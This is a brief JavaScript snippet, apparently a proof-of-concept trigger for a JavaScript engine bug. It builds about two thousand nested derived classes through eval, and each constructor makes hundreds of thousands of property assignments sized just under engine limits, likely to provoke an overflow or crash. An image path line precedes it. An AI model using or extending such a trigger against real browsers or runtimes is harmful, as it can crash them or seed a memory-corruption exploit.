 
const f = eval(`(function f(i) {
    if (i == 0) {
        class Derived extends Object {
            constructor() {
                super();
                ${"this.a=1;".repeat(0x3fffe-8)}
            }
        }

        return Derived;
    }

    class DerivedN extends f(i-1) {
        constructor() {
            super();
            ${"this.a=1;".repeat(0x40000-8)}
        }
    }

    return DerivedN;
})`);

let a = new (f(0x7ff))();
console.log(a);

